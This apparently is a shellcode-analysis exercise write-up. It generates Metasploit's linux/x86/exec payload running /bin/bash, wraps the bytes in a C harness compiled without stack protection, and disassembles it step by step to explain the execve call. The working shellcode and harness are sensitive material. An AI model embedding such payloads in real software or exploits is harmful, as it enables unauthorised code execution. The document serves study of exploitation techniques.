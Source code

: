 # Shellcode No.3 - Exec Command

At third glance, we'll take payload linux/x86/exec, for /bin/bash executing.

------------------------------------------------------------------------------------------------------------------------
Again, we'll use msfvenom for shellcode generation:
```sh
$ msfvenom -p linux/x86/exec CMD=/bin/bash -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 45 bytes
Final size of c file: 213 bytes
unsigned char buf[] =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0a\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";
```
------------------------------------------------------------------------------------------------------------------------
shellcode.c wrapped updating:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0a\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
------------------------------------------------------------------------------------------------------------------------
Compiling:
```sh
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
------------------------------------------------------------------------------------------------------------------------
In the second terminal we can check the processes opened using `ps` command:
```sh
$ ps
  PID TTY          TIME CMD
16395 pts/0    00:00:00 bash
27003 pts/0    00:00:00 ps
$ ./shellcode 
Shellcode Length:  15
$ ps
  PID TTY          TIME CMD
16395 pts/0    00:00:00 bash
27004 pts/0    00:00:00 sh
27005 pts/0    00:00:00 bash
27058 pts/0    00:00:00 ps
```

Fantastic, everything works fine. As we see, again there are some null bytes, which breaks our "Shellcode Length" counter.

------------------------------------------------------------------------------------------------------------------------
Let's use ndisasm again.
```sh
$ echo -ne "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0a\x00\x00\x00\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x57\x53\x89\xe1\xcd\x80" | ndisasm -u -
```
```nasm
00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E80A000000        call dword 0x27
0000001D  2F                das
0000001E  62696E            bound ebp,[ecx+0x6e]
00000021  2F                das
00000022  626173            bound esp,[ecx+0x73]
00000025  6800575389        push dword 0x89535700
0000002A  E1CD              loope 0xfffffff9
0000002C  80                db 0x80
```
------------------------------------------------------------------------------------------------------------------------

The analysis of this shellcode will not be divided into different parts. 

- Pushing value 11 on the stack (for execve())
```nasm
00000000  6A0B              push byte +0xb
```
- Moving that value into EAX
```nasm
00000002  58                pop eax
```
- Modern EDX cleaning (0x0)
```nasm
00000003  99                cdq
```
- Pushing 0 on the stack (string terminator)
```nasm
00000004  52                push edx
```
- Pushing '-c' string on the stack - this is a /bin/sh parametr
```nasm
00000005  66682D63          push word 0x632d
```
- EDI points at top of the stack (ESP) for "-c"
```nasm
00000009  89E7              mov edi,esp
```
- Pushing "/sh" on the stack
```nasm
0000000B  682F736800        push dword 0x68732f
```
- Pushing "/bin" on the stack
```nasm
00000010  682F62696E        push dword 0x6e69622f
```
- EBX points at top of the stack (ESP) for "/bin/sh"
```nasm
00000015  89E3              mov ebx,esp
```
- Pushing 0 on the stack (string terminator)
```nasm
00000017  52                push edx
```
- Here we are using call instruction for pushing address of the '/bin/bash' string on the stack (that string is places right after call instruction). Call "orders" us to jump to 0x27, because that's where our string + null terminator ends
```nasm
00000018  E80A000000        call dword 0x27
```
- /bin/bas string, note "H" is missing
```nasm
0000001D  2F                das
0000001E  62696E            bound ebp,[ecx+0x6e]
00000021  2F                das
00000022  626173            bound esp,[ecx+0x73]
```
- Here, we have our missing "H", null terminator (\x00) and finally our 0x27 from call
```nasm
00000025  6800575389        push dword 0x89535700
```
We will check what is hidden, using ndisasm again. 
```sh
$ echo -ne "\x57\x53\x89\xe1\xcd\x80" | ndisasm -u -
00000000  57                push edi
00000001  53                push ebx
00000002  89E1              mov ecx,esp
00000004  CD80              int 0x80
```
Great! Let's analyze the last instructions.
- Push our pointer to "-c" string
```nasm
00000000  57                push edi
```
- Push our pointer for "/bin/sh" string
```nasm
00000001  53                push ebx
```
- Moving top of the stack to the ECX registry, now stack looks like: 
	- "/bin/sh"
	- "-c"
	- "/bin/bash"
	- 0x00 -> argv terminator
```nasm
00000002  89E1              mov ecx,esp
```
- Execve() syscall execution
```nasm
00000004  CD80              int 0x80
```
------------------------------------------------------------------------------------------------------------------------

That's all, /bin/bash executes properly.

### Pwned. ###
